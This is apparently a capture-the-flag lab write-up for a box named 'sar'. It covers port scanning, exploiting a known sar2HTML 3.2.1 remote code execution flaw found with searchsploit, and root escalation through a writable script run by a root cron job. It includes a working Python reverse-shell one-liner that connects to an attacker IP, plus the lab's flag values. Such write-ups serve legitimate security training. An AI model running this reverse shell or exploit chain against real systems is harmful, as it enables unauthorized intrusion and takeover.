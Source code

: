 # [Recon]

```
=========================================================================
[OS]: Ubuntu
[Web-Technology]: Apache httpd 2.4.29
[Hostname]:  sar
[IP]:  192.168.215.35
[USERS]: love
[CREDENTIALS]: 
=========================================================================
```
-----------------------------------------------------------------------------

# [Scanning and Enumeration]

	[NMAP]

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHy/WJJHLFdbwbJpTyRYhEyj2jZV024UPWIdXfNHxq45uh08jkihv3znZ98caLP/pz352c0ZYD31We0bTSbHyjQce2bSAJHubDYp13hU/P4tbV5GIJ72W2rWkLTslH/SJoHUSqlManB7ZzgVyU2KQ4fnNx/V1XGJYsshquRqTrXKeeal+yQvTC4gnsr8ENIGMq0yJnYxMAasx6kmSc+S+065Mie65xkyisFXo2MQyxzsFdCu2w1bYmb3pegYDm6Y0c/EJP0sxDizXVwkUOS0XSVdGuk3RUYjt5GQ2fL24ZsML6CwN+HD2ZTnD0FK90PQTLuvlp6BoI/ZWvIenNvu63
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFgxutbLnN4K2tj6ZHzrlzTKS+RRuly+RkA0J63JsQFiwyvz4PqA64w/h0Se3gymZV6zJ9XBpS41b6IoEymeiSA=
|   256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIM+5254x35Vwa2S7X73YLY87Q58qQOD9oQeSKMpmmT0o
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

-----------------------------------------------------------------------------

	[Web Enumeration]

```
/robots.txt --> /sar2HTML
```

Upon visiting the `sar2HTML` endpoint, I notice a static web page that contains a lot of information about the `sar2html`

![[Pasted image 20240829222830.png]]

Before proceeding with anything, I noticed that it has a version so i googled the `sar2html` which reveals more about the python web based application that allows one to plot and analyze sar data from various operating systems. Also a tool for system statistics `sar data`. It is also vulnerable to `Remote Code Execution`  in specific versions all the way to `3.2.1`. 
![[Pasted image 20240829223153.png]]

Also i use the `searchsploit` utility tool to look for same vulnerability using the terminal so it return 2 results indicating a python exploit and a text file.
```bash
searchsploit sar2html 3.2.1
locate php/webapps/49344.py
cp /usr/share/exploitdb/exploits/php/webapps/49344.py .
locate php/webapps/47204.txt
cat /usr/share/exploitdb/exploits/php/webapps/47204.txt
```
![[Pasted image 20240829233933.png]]

Time to run the exploit and check what it does. We can also do that by `reading` the content of the exploit. So we run the exploit..

![[Pasted image 20240829221713.png]]


![[Pasted image 20240829221911.png]]

I tried other `revshells` [bash, nc, and others] but none seems to work. So i thought of using this long python version and `BOOM` we got a shell!

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.152",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![[Pasted image 20240829225258.png]]

![[Pasted image 20240829225543.png]]

---------------------------------------------------------------------------------------------------

# [Privilege-Escalation]

--> At this point, I tried lateral movement and basic privesc techniques to uncover more information but end up with nothing. So i decided to upload `linpeas.sh`. Upon uploading the linpeas.sh file and running it, Here we go lots of `file owners as root` came up. I notice the one i saw earlier after gaining access to the box in `var/www/html`.

![[Pasted image 20240829235302.png]]
The `finally.sh` script is running as root user. maybe there might be some `cron jobs` running the script in the background but lets confirm.

![[Pasted image 20240829235751.png]]
and there we go its running as root but we can not modify the file nor executes it but we can `read` the content of the file and after i did just that i noticed the script only executes a script in the same directory as the finally.sh script.

![[Pasted image 20240830000705.png]]

And it seems like we can `read, write and execute` the `write.sh` script which is owned by us [www-data] So lets add some `bash or python3` revshells commands to the file before the `finally.sh` scripts executes it in the  next five minutes .

![[Pasted image 20240830002240.png]]
And after some minutes, we gain privileges as root.

![[Pasted image 20240830002429.png]]

---------------------------------------------------------------------------------------------------

# [Take away Concept]
```
=========================================================================
* Always explore webshells
* Check for cron jobs [crontab -l, cat /etc/crontab]
* Try multiple Reverse shells [python3, bash, nc]
=========================================================================
```

---------------------------------------------------------------------------------------------------

# [Flags]

`local.txt : 9dd50fe1ee4fafce9bb2cc21ca38bbf1`
`proof.txt : 4fe5149021391723e23839b8e20a2d0d`


---------------------------------------------------------------------------------------------------
